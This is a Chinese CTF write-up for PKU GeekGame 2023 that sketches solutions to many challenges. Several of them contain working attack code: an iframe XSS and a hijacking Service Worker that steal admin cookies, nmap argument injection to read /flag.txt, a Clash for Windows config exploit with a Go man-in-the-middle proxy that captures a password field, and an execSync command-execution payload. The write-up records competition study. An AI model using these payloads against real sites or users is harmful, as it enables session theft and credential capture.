

今年没空（也没心情）写详细的 writeup 了，所以只能大概讲讲我对每道题的思路和一些观点了。比赛结束之后也会放在[我的博客](https://blog.taoky.moe/)上。

<!-- more -->

## 一眼盯帧

imagemagick convert 可以直接提取 GIF 帧到图，然后 rot13。

## 小北问答!!!!!

1. 直接搜得到 sbatch，这个命令也是其他 slurm 的超算会用到的；
2. <https://github.com/MiCode/Xiaomi_Kernel_OpenSource/blob/corot-t-oss/Makefile>
   ```
   VERSION = 5
   PATCHLEVEL = 15
   SUBLEVEL = 78
   ```
3. <https://everymac.com/ultimate-mac-lookup/?search_keywords=Watch6,16>
4. <https://github.com/PKU-GeekGame/gs-backend/blob/2a1b6743559b95a534e186c4e170eab6b8de5400/src/store/user_profile_store.py#L64>
  
   但是看到版本提示之后，用 `nix` 试了一下各个 Python 版本，结果发现输出是一样的……后来才发现自己忘记 `nix-shell` 之前 `deactivate` 虚拟环境了。
5. <https://zh.wikipedia.org/wiki/Bilibili>

   > 2010年3月16日到5月6日，AcFun爆发混乱和刷爆弹幕事件，大量视频弹幕中出现了“大陆最好的弹幕站**bilibili.us**”以及“大陆喷子最多的弹幕站acfun.cn”，大量会员流向bilibili[25]。2011年9月，杭州幻电科技有限公司成立。

   所以得看 bilibili.us 的存档：<https://web.archive.org/web/20110102140319/http://bilibili.us/video/game.html>
6. 根据赞助商信息搜到 <http://www.iaspbo.com.cn>，发现这个什么世界大会 2023 年在卢森堡办，然后搜一下卢森堡知名景点（这个建筑还挺漂亮的），结果被 <https://cn.tripadvisor.com/Attraction_Review-g190356-d17258920-Reviews-Court_of_Justice_of_the_European_Union-Luxembourg_City.html> 坑了。之后检查了街景地图才发现不是欧盟法院，而是卢森堡音乐厅。

## Z 公司的服务器

第一题 Konsole 收不到文件，原因不明。

我的解法是用 <https://github.com/enix223/modem>。这个代码在 Python 3 下有点和 bytes/str 编码有关的小问题，为了偷懒，直接在抛异常的地方 `.encode('iso-8859-1')` 了。于是只需要 `getc()` 和 `putc()` 两个函数定义就行了。

第一问：

```python
def getc(size, timeout=1):
    # str, but keep bytes unchanged
    return s.recvn(size, timeout=timeout).decode('iso-8859-1')

def putc(data, timeout):
    assert len(data) == 1
    s.send(data)
```

第二问 wireshark 提取 raw data，然后：

```python
f = open("server", "rb")
data = f.read()
datai = 0

def getc(size, timeout=1):
    # str, but keep bytes unchanged
    global datai
    assert size == 1
    x = data[datai]
    datai += 1
    return chr(x)

def putc(data, timeout):
    pass
```

第二问我也试过手写 parser，但是输出的图片有很严重的 artifacts，可能是哪里我没考虑到。

（不正确的）解析代码：

```python
f = open("flag4.jpg", "rb")
data = f.read()
f2 = open("flag42.jpg", "wb")

rev = False
i = 0
while True:
    ch = data[i]
    i += 1
    if ch in [0x11, 0x91, 0x13, 0x93]:
        print("skip1")
        continue
    if rev is False and ch == 0x18:
        rev = True
        continue
    if rev is True:
        rev = False
        if ch in [0x11, 0x91, 0x13, 0x93, 0x18]:
            print("skip2")
            continue
        if ch in [0x68, 0x69, 0x6a, 0x6b]:
            print(hex(ch))
            if ch == 0x69:
                i += 4
                continue
            elif ch == 0x68:
                break
            #ch = ch
            continue
        elif ch == 0x6c:
            print('7f', hex(ch))
            ch = 0x7f
        elif ch == 0x6d:
            print('ff', hex(ch))
            ch = 0xff
        else:
            if ch & 0x60 == 0x40:
                ch = ch ^ 0x40
            else:
                assert 0
    #if ch == 0x18:
    #    rev = True
    #    continue
    #if rev is True:
    #    if 0x40 <= ch and ch != 0x69:
    #        ch -= 0x40
    #    else:
    #        if ch != 0x69:
    #            print(hex(ch))
    #        i += 8
    #        continue
    #    rev = False
    f2.write(bytes([ch]))
    if i >= len(data):
        break
```
</details>

## 猫咪状态监视器

直接看 `/usr/bin/service` 这个脚本的源代码，可以发现很明显的「路径穿越」问题。

## 基本功

<https://www.freebuf.com/articles/network/255145.html>

## Dark Room

耐心玩一遍，可以发现题目地图和公开代码的几乎一致。第一个 flag 需要逃离之后 sanity 超过 115，审计代码可以发现用钥匙开门可以增加 sanity，并且可以开了又开，不限次数。




第二问输入非整数会输出包含代码的 exception，而生成 2048 bit 素数不是什么特别快的操作，因此根据时间差可以推断当前位是 1 还是 0。

## 麦恩·库拉夫特（部分）

不会玩 MC。去搜了一下地图编辑器，发现 Minutor，在里面搜索牌子可以得到第一个 flag 的位置，然后进游戏切创造模式 tp 过去就行；第二个 flag Minutor 找不到，搜了一下与 MC 有关的 CTF writeups 发现 NBTExplorer，打开存档直接搜 flag，过一段时间两个 flag 都能找到。


*创造模式下别不小心点到了牌子（本图基于真实事件改编）*


以上工具都可以用 wine 顺利运行。

第三个 flag，由于对红石电路没有任何了解，不搞了。

## Emoji Wordle

flag1 直接爆破；flag2 cookie 丢到 cyberchef 里面 decode jwt。直到第二阶段之后我一直都以为 flag3 是利用 jwt 漏洞，包括设置 alg 为 none、用空密钥签名都试过，最后突然意识到，emoji 就那么多，也是直接爆破就行了，只是爆破时每次请求要携带相同的 session，并且在一分钟内完成。

## 第三新XSS

第一个 flag 套个 /admin 的 iframe 直接读 iframe 里的 cookie 即可，因为 Path 没有任何安全性上的意义。

```html
<iframe src="https://prob99-nxkc2w9v.geekgame.pku.edu.cn/admin" id="a"></iframe>
<script>
setTimeout(() => {document.title=document.getElementById("a").contentDocument.cookie}, 500)
</script>
```

第二问一开始觉得不可思议，后来想到似乎有些 web app 支持离线运行，好像是 Service Worker，然后可以搓出这样一个 worker：

```javascript
const CACHE_NAME = 'v2_cache';
const CACHE_FILES = [
];

self.addEventListener('install', function (event) {
    event.waitUntil(
        // Opening cache
        caches.open(CACHE_NAME)
            .then(function (cache) {
                console.log('Opened cache');
                // Adding cache files
                return cache.addAll(CACHE_FILES);
            })
    );
});

self.addEventListener('fetch', function (event) {
    event.respondWith(
        caches.match(event.request).then(function(response) {
            // Check if request URL is "/admin/"
            var url = new URL(event.request.url);
            if (url.pathname === '/admin/') {
                return new Response(
                    '<script>setTimeout(() => {document.title=document.cookie}, 1000) </script>',
                    { headers: { 'Content-Type': 'text/html'}}
                );
            }
            if (response) return response;
            // Else fetch from network
            return fetch(event.request);
        })
    );
});
```

因为我们只能放次级目录，所以 HTML 里面需要显式写 `scope: "/"`：

```html
<!DOCTYPE html>
<html>
<head><link rel="icon" href="data:,"></head>
<body>
<script>
// check if Service Worker is supported
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/swjs2/', { scope: "/" }).then(function(registration) {
    console.log('Service Worker registered with scope:', registration.scope);
  }).catch(function(err) {
    console.log('Service Worker registration failed:', err);
  });
}
</script>
</body>
</html>
```

并且生效的还需要 `/swjs2/` 说明自己是个 JS + 有效的 SW 范围是整个域名，这需要这样的 header：

```json
{"Content-Type": "application/javascript; charset=UTF-8", "Service-Worker-Allowed": "/"}
```

## 简单的打字稿

类型体操。通过返回的 stderr 获取 flag，并且 stderr 里面不能有 flag 这个字符串。Deno 直接 nix-shell 跑一个就行。

第一问网上找个切割字符串的 type，然后：

```typescript
type flag1 = "flag{114514}"

type Split<S extends string, D extends string> =
    string extends S ? string[] :
    S extends '' ? [] :
    S extends `${infer T}${D}${infer U}` ? [T, ...Split<U, D>] : [S];

type zenithal = Split<flag1, "{">[1]

let x: zenithal = "{}"
```

第二问比较折磨，因为 `object | { new (): { v: () => (a: (a: unknown, b: { 'flag{...}': never } & Record<string, string>) => never) => unknown } }` 这个类型实在太过奇怪，只能一步一步拆。

```typescript
type flag2 = object | { new (): { v: () => (a: (a: unknown, b: { 'flag{exampleflag}': never } & Record<string, string>) => never) => unknown } }
type zenithal0 = Extract<flag2, { new (): {} }>
// type zenithal0 = new () => {
//     v: () => (a: (a: unknown, b: {
//         'flag{exampleflag}': never;
//     } & Record<string, string>) => never) => unknown;
// }
type zenithal1 = InstanceType<zenithal0>
// type zenithal1 = {
//     v: () => (a: (a: unknown, b: {
//         'flag{exampleflag}': never;
//     } & Record<string, string>) => never) => unknown;
// }
type ExtractFunctionFromConstructedType<T> = T extends { [K in keyof T]: infer V } ? (V extends (...args: any[]) => any ? V : never) : never;
type zenithal2 = ExtractFunctionFromConstructedType<zenithal1>
// type zenithal2 = () => (a: (a: unknown, b: {
//     'flag{exampleflag}': never;
// } & Record<string, string>) => never) => unknown
type zenithal3 = zenithal2 extends (...args: any[]) => infer R ? ExtractParams<R> : never;
// type zenithal3 = [a: (a: unknown, b: {
//     'flag{exampleflag}': never;
// } & Record<string, string>) => never]
type zenithal4 = zenithal3[0]
// type zenithal4 = (a: unknown, b: {
//     'flag{exampleflag}': never;
// } & Record<string, string>) => never
type zenithal5 = Parameters<zenithal4>
// type zenithal5 = [a: unknown, b: {
//     'flag{exampleflag}': never;
// } & Record<string, string>]
type zenithal6 = zenithal5[1]
// type zenithal6 = {
//     'flag{exampleflag}': never;
// } & Record<string, string>

// 接下来问题来了：怎么处理这个 intersection？
// 我们确实有办法把它变成一个 object，像这样：
// https://stackoverflow.com/questions/61542365/for-typescript-intersection-type-type-c-a-b-how-to-see-resulting-type-sig
type ExpandOriginal<T> = T extends infer U ? { [K in keyof U]: U[K] } : never;
type soyo0 = ExpandOriginal<zenithal6>
// type soyo0 = {
//     [x: string]: string;
//     'flag{example}': never;
// }
// 但是这样的后果是，我们有一个 value 类型是 never 的 key（而且这个类型是冲突的！），而这样的类型似乎会在 typescript 里面带来很大的麻烦。
// 解决方法是：观察 Expand，可以发现我们有办法掐死 never
type Expand<T> = T extends infer U ? { [K in keyof U]: (U[K] extends [never] ? true : false) } : never;
type zenithal7 = Expand<zenithal6>
// type zenithal7 = {
//     [x: string]: false;
//     'flag{example}': true;
// }
// 很好，碍事的 never 没了
type TrueProps<T> = {
  [P in keyof T as T[P] extends true ? P : never]: any
};
// 上面这个是 GPT-4 写的类型
// 我在后面加了 : any（否则会报错 https://stackoverflow.com/questions/71019327/mapped-type-compiler-error-when-strict-is-true-mapped-object-type-implicitly-ha）
// 以及 `as`, see https://stackoverflow.com/questions/49397567/how-to-remove-properties-via-mapped-type-in-typescript
type zenithal8 = keyof TrueProps<zenithal7>
// type zenithal8 = "flag{example}"
// 很好，于是这个问题规约到了第一问
type zenithal9 = Split<zenithal8, "{">[1]
// flag 里面有 flag，所以只能这样写分段获取
type zenithal10 = Split<zenithal9, "f">[0]

let x: zenithal10 = {"a": "b"};
```

## 逝界计划


Home Assistant 的 integrations 真 TM 得多。去源代码里头 ripgrep 了 `open\(.+\)` 一无所获。

第二阶段提示用 nmap，那就简单了：

```shell
-F -T4 --min-rate 10 --host-timeout 5s -iL /flag.txt -oN /config/flag
```

然后建个备份下下来就好了。

## 非法所得

这题挺不错的，VNC 和 Electron 还能这么用，学到了。

首先很明显是 <https://github.com/Fndroid/clash_for_windows_pkg/issues/2710>。
然后可以发现 `alert()` 能用（虽然弹了之后就要删环境重来了，因为那个弹框关不掉）。

于是获得第一个 flag，需要读文件：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: 
    type: select
    proxies:
    - a
```

第二个 flag 需要我们当中间人。先找个[代理的实现](https://gist.github.com/yowu/f7dc34bd4736a65ff28d)改一改：

```go
package main

import (
	"flag"
	"log"
	"net"
	"net/http"
	"strings"
)

// Hop-by-hop headers. These are removed when sent to the backend.
// http://www.w3.org/Protocols/rfc2616/rfc2616-sec13.html
var hopHeaders = []string{
	"Connection",
	"Keep-Alive",
	"Proxy-Authenticate",
	"Proxy-Authorization",
	"Te", // canonicalized version of "TE"
	"Trailers",
	"Transfer-Encoding",
	"Upgrade",
}

func copyHeader(dst, src http.Header) {
	for k, vv := range src {
		for _, v := range vv {
			dst.Add(k, v)
		}
	}
}

func delHopHeaders(header http.Header) {
	for _, h := range hopHeaders {
		header.Del(h)
	}
}

func appendHostToXForwardHeader(header http.Header, host string) {
	// If we aren't the first proxy retain prior
	// X-Forwarded-For information as a comma+space
	// separated list and fold multiple headers into one.
	if prior, ok := header["X-Forwarded-For"]; ok {
		host = strings.Join(prior, ", ") + ", " + host
	}
	header.Set("X-Forwarded-For", host)
}

type proxy struct {
}

func (p *proxy) ServeHTTP(wr http.ResponseWriter, req *http.Request) {
	log.Println(req.RemoteAddr, " ", req.Method, " ", req.URL)

	//http: Request.RequestURI can't be set in client requests.
	//http://golang.org/src/pkg/net/http/client.go
	req.RequestURI = ""

	delHopHeaders(req.Header)

	if clientIP, _, err := net.SplitHostPort(req.RemoteAddr); err == nil {
		appendHostToXForwardHeader(req.Header, clientIP)
	}

	// resp, err := client.Do(req)
	// if err != nil {
	// 	http.Error(wr, "Server Error", http.StatusInternalServerError)
	// 	log.Fatal("ServeHTTP:", err)
	// }
	// defer resp.Body.Close()

	// log.Println(req.RemoteAddr, " ", resp.Status)

	// delHopHeaders(resp.Header)

	// copyHeader(wr.Header(), resp.Header)
	// wr.WriteHeader(resp.StatusCode)
	// io.Copy(wr, resp.Body)
	// wr.WriteHeader(200)
	wr.Header().Set("Content-Type", "text/html")
	wr.Write([]byte("原神启动<p id='show'></p><input id='primogem_code' type='password' /><script>var x=document.getElementById('primogem_code'); var y=document.getElementById('show'); setTimeout(() => {y.innerHTML = x.value}, 3000);</script>"))
}

func main() {
	var addr = flag.String("addr", ":19198", "The addr of the application.")
	flag.Parse()

	handler := &proxy{}

	log.Println("Starting proxy server on", *addr)
	if err := http.ListenAndServe(*addr, handler); err != nil {
		log.Fatal("ListenAndServe:", err)
	}
}
```

And then:

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a
    type: http
    server: aoi.taoky.moe
    port: "19198"
    skip-cert-verify: true
proxy-groups:
  - name: bb
    type: select
    proxies:
      - a
rules:
  - MATCH,a
  - DOMAIN-SUFFIX,pku.edu.cn,a
```

然后访问 ys.pku.edu.cn 即可。上面代码忘了加 html encoding，不过问题不大，反正拿到 flag 了。

第三问已知可以这么读取程序输出：

```javascript
require('child_process').execSync('/app/readflag').toString()
```

于是规约到第一问，Q.E.D.

## 汉化绿色版免费下载

什么嘛，我还是解包过 kirikiri 的游戏的嘛。

之前因为 wine 跑 kirikiri 游戏有点问题（主要是 CPU 占用高得离谱），我特地研究过怎么用 krkr 的开源实现 [krkrsdl2](https://github.com/krkrsdl2/krkrsdl2) 跑 [SeaBed](https://store.steampowered.com/app/583090/SeaBed/)（百合视觉小说，故事很感人，推荐），如果有兴趣的话可以阅读 <https://notes.taoky.moe/krkrsdl2>。

直接用 wine 跑需要设置 wine 语言为中文（等价于 Windows 里面设置「非 Unicode 程序的语言」），否则你会看到这个：


用脚后跟猜测是 Windows 的 codepage 和 A 系列 API 有关的问题。

所以第一问用 <https://github.com/UserUnknownFactor/krkr-xp3> 就行。如果要用 krkrsdl2 跑题目，得改一些文件的编码（改到 UTF-16 LE 或者 UTF-8），否则跑不起来。

第二问卡了很久，改脚本跑只拿到了 hash，没有别的信息（用 Rust 写了个 BFS，差点把我笔记本搞到 OOM）。后来读到 <https://iyn.me/i/post-45.html>，于是用 KirikiriDescrambler 解码了存档，然后又卡了很久，最后发现有个 trail 的变量，标识了每个标签访问了多少次。

有这个信息就简单太多了：

```python
from more_itertools import distinct_permutations as idp

def cal_hash(p):
    hash = 1337
    for c in p:
        if c == 'A':
            hash = hash * 13337 + 11
        elif c == 'E':
            hash = hash * 13337 + 22
        elif c == 'I':
            hash = hash * 13337 + 33
        elif c == 'O':
            hash = hash * 13337 + 44
        hash = hash % 19260817
    hash = hash * 13337 + 66
    hash = hash % 19260817
    return hash

for cnt, p in enumerate(idp('AAAAAAEEEIOOOOOO')):
    hash = cal_hash(p)
    if hash == 7748521:
        print("Solution:", "".join(p))
        # break
```

记得拿原始存档解包！不然 trail 信息是错的，会被坑死。

后面的 binary 和 algorithm 就没有精力去用心做了，毕竟 re 和 pwn 的知识这几年已经全忘了，不怎么用的数学知识大概率也已经还给老师了。


## 初学 C 语言（部分）

`printf` 的第一个参数可以任意控制，所以不停 `%p` 让它吐出来就行。

## Baby Stack（部分）

无符号 0-1 = UINT_MAX，然后就可以参考最简单的栈溢出 pwn 做了。另外 `coredumpctl gdb` 一下可以发现，movaps 不喜欢未对齐的栈，所以得先跳到一个 `ret` 然后再跳到 `backdoor`。

## 关键词过滤喵，谢谢喵（部分）

感觉挺有意思的题目，就是如果能发一下测试样例就更好了。

第一问特地提示了十进制，所以解法是：

```
把【(?s).】替换成【a】喵
把【aaaaaaaaaa】替换成【b】喵
把【bbbbbbbbbb】替换成【c】喵
把【cccccccccc】替换成【d】喵
把【dddddddddd】替换成【e】喵

把【ec】替换成【e0c】喵
把【eb】替换成【e00b】喵
把【ea】替换成【e000a】喵
把【e$】替换成【e0000】喵
把【db】替换成【d0b】喵
把【da】替换成【d00a】喵
把【d$】替换成【d000】喵
把【ca】替换成【c0a】喵
把【c$】替换成【c00】喵
把【b$】替换成【b0】喵

把【eeeeeeeee】替换成【9】喵
把【eeeeeeee】替换成【8】喵
把【eeeeeee】替换成【7】喵
把【eeeeee】替换成【6】喵
把【eeeee】替换成【5】喵
把【eeee】替换成【4】喵
把【eee】替换成【3】喵
把【ee】替换成【2】喵
把【e】替换成【1】喵
把【ddddddddd】替换成【9】喵
把【dddddddd】替换成【8】喵
把【ddddddd】替换成【7】喵
把【dddddd】替换成【6】喵
把【ddddd】替换成【5】喵
把【dddd】替换成【4】喵
把【ddd】替换成【3】喵
把【dd】替换成【2】喵
把【d】替换成【1】喵
把【ccccccccc】替换成【9】喵
把【cccccccc】替换成【8】喵
把【ccccccc】替换成【7】喵
把【cccccc】替换成【6】喵
把【ccccc】替换成【5】喵
把【cccc】替换成【4】喵
把【ccc】替换成【3】喵
把【cc】替换成【2】喵
把【c】替换成【1】喵
把【bbbbbbbbb】替换成【9】喵
把【bbbbbbbb】替换成【8】喵
把【bbbbbbb】替换成【7】喵
把【bbbbbb】替换成【6】喵
把【bbbbb】替换成【5】喵
把【bbbb】替换成【4】喵
把【bbb】替换成【3】喵
把【bb】替换成【2】喵
把【b】替换成【1】喵
把【aaaaaaaaa】替换成【9】喵
把【aaaaaaaa】替换成【8】喵
把【aaaaaaa】替换成【7】喵
把【aaaaaa】替换成【6】喵
把【aaaaa】替换成【5】喵
把【aaaa】替换成【4】喵
把【aaa】替换成【3】喵
把【aa】替换成【2】喵
把【a】替换成【1】喵

如果看到【[0-9]】就跳转到【结束】喵
把【^】替换成【0】喵

结束：
谢谢喵
```

第二问按照提示的睡排序的思路，但是被 regex catastrophic backtracking 卡住了，之后没细究。

两种尝试：

```
重复把【\n\n】替换成【\n】喵
把【(.+)】替换成【\1😸】喵

如果没看到【😸】就跳转到【结束】喵

排序：
把【(?m)^(.)(.*)(😸.*)】替换成【\2\3\1】喵
重复把【(?sm)(^[^😸][^\n]*)(\n.*)(^😸[^\n]*)】替换成【\3\2\1】喵

如果看到【(?m)^[^😸]】就跳转到【排序】喵
把【😸】替换成【】喵

结束：
谢谢喵
```

和

```
重复把【\n\n】替换成【\n】喵
把【(.+)】替换成【\1✋】喵

如果没看到【✋】就跳转到【结束】喵

排序：
把【(?m)^(.)(.*)(✋.*)】替换成【\2\3\1】喵
如果没看到【(?m)^✋】就跳转到【排序】喵
把【(?m)^✋】替换成【Ⓜ】喵
重复把【(?sm)(^[^✋✂️Ⓜ][^\n]*)(\n[^Ⓜ]*)(^Ⓜ[^\n]*)】替换成【\3\2\1】喵
把【(?m)^Ⓜ】替换成【✂️】喵

如果看到【✋】就跳转到【排序】喵
把【✂️】替换成【】喵

结束：
谢谢喵
```

## 未来磁盘（部分）

第一问直接解压几次直到发现输出一直是 0，甚至如果你在用 btrfs/zfs，并且开启了透明压缩，即使盘没到 7T 也可以直接解压。

当然最后我还是换了台机器用管道跑，毕竟有点慢：

```shell
gunzip -c flag1.gz | tr -d '\0' > tr.txt
```

## 小章鱼的曲奇（部分）

第一问 <https://github.com/tna0y/Python-random-module-cracker>，第三问看提示，然后看代码发现 `zip()` 只取比较短的那个 list 作为长度，因此只要输入一个值就够了。
